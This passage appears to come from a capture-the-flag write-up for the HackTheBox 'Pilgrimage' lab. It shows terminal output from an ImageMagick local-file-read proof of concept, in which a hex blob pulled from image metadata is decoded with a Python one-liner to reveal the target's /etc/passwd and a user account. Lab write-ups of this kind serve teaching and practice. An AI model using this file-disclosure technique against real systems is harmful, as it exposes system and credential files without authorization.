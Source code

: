 ```
6f67696e0a656d696c793a783a313030303a313030303a656d696c792c2c2c3a2f686f6d
652f656d696c793a2f62696e2f626173680a73797374656d642d636f726564756d703a78
3a3939393a3939393a73797374656d6420436f72652044756d7065723a2f3a2f7573722f
7362696e2f6e6f6c6f67696e0a737368643a783a3130353a36353533343a3a2f72756e2f
737368643a2f7573722f7362696e2f6e6f6c6f67696e0a5f6c617572656c3a783a393938
3a3939383a3a2f7661722f6c6f672f6c617572656c3a2f62696e2f66616c73650a

    signature: 78b9dfbaedd0d5cd7cb91c9ff9c2c2c925fd67a642483e6cd977973230841b28
  Artifacts:
    filename: 655a65e420bce.png
    verbose: true
  Tainted: False
  Filesize: 1688B
  Number pixels: 16384
  Pixels per second: 7.77163MB
  User time: 0.000u
  Elapsed time: 0:01.002
  Version: ImageMagick 6.9.11-60 Q16 x86_64 2021-01-25 https://imagemagick.org

┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage/imagemagick-lfi-poc]
└─$ 
```

And the big data blob is the content of our file. So we have to decode it:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage/imagemagick-lfi-poc]
└─$ python3 -c 'print(bytes.fromhex("726f6f743a783a30 [...] 696e2f66616c73650a").decode("utf-8"))'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false


┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage/imagemagick-lfi-poc]
└─$
```
We got the `/etc/passwd`! The user `emily` really exists on the system.
